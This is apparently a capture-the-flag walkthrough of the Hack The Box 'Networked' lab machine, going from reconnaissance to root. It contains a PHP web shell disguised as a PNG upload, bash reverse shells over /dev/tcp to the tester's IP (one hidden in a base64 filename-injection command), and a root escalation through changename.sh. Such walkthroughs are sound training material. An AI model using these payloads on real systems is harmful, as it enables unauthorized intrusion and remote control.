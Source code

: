 # Exploiting the HTB “Networked” Box: From Recon to Root

## HTB - Networked Walkthrough

**Category**: Web Exploitation, Privilege Escalation\
**Tags**: #cybersecurity

***

### 🕵️ Initial Recon

* Service found: **SSH**
* Version: **OpenSSH 7.4**
* Possible exploit: [CVE-2016-10012](https://www.exploit-db.com/exploits/40963)

```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.10.146/FUZZ
```

* Found and extracted `backup.tar` archive.
* Inside: `upload.php` code with weak validation.

***

### 📤 File Upload Vulnerability

* The upload logic checks only:
  * MIME type
  * File extension

**Request (Burp Suite)**

```http
POST /upload.php HTTP/1.1
Host: 10.10.10.146
Content-Length: 329
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.10.146
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRKXbcJxOmo3AUCu7
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.10.146/upload.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryRKXbcJxOmo3AUCu7
Content-Disposition: form-data; name="myFile"; filename="test.php.png"
Content-Type: image/png

PNG

	
<?php
system($_REQUEST['cmd']);
?>
------WebKitFormBoundaryRKXbcJxOmo3AUCu7
Content-Disposition: form-data; name="submit"

go!
------WebKitFormBoundaryRKXbcJxOmo3AUCu7--
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🐚 Reverse Shell Access

* Used `nc` on Parrot OS:

```bash
nc -lvnp 4444
```

* Burp request:

```http
GET /uploads/10_10_14_8.php.png?cmd=bash+-i+>%26+/dev/tcp/10.10.14.8/4444+0>%261 HTTP/1.1
Host: 10.10.10.146
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

### 🧼 File Cleanup Script Vulnerability

* In `guly`'s home directory, a script was auto-deleting files not matching an IP regex.

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

* This allows **command injection**.
*

    <figure><img src="../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
* made a reverse shell

```
echo "bash -i >& /dev/tcp/10.10.14.8/4445 0>&1" | base64
```

```
touch -- ';echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDUgMD4mMQo=" | base64 -d | bash'
```

* gully can run the following

#### Reproduction

```bash
touch -- ';echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDUgMD4mMQo=" | base64 -d | bash'
```

***

### ⚙️ Privilege Escalation via `changename.sh`

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
    echo "interface $var:"
    read x
    while [[ ! $x =~ $regexp ]]; do
        echo "wrong input, try again"
        echo "interface $var:"
        read x
    done
    echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

* Vulnerability: passes user-controlled input to a script executed with root privileges.

#### Exploit:

```bash
echo 'bash -p' > /tmp/payload
chmod +x /tmp/payload

sudo /usr/local/sbin/changename.sh
```

When prompted:

```
interface NAME:
guly0
interface PROXY_METHOD:
none
interface BROWSER_ONLY:
no
interface BOOTPROTO:
none /tmp/payload
```

Executes `/tmp/payload` as root.

* as said in this Blog post if a space is given this is executed everything after the space as root
  * https://seclists.org/fulldisclosure/2019/Apr/24

***

### 🧠 Lessons

* Never trust user input — always sanitize and validate properly.
* File upload protections should go beyond MIME and extension.
* Never directly pass input to shell commands without sanitization.

***

### 🔗 References

* [Full Disclosure - changename.sh bug](https://seclists.org/fulldisclosure/2019/Apr/24)
* [YouTube Walkthrough](https://www.youtube.com/watch?v=H3t3G70bakM)
* https://seclists.org/fulldisclosure/2019/Apr/24
* [https://www.hackthebox.com/achievement/machine/409699/203](https://www.hackthebox.com/achievement/machine/409699/203)
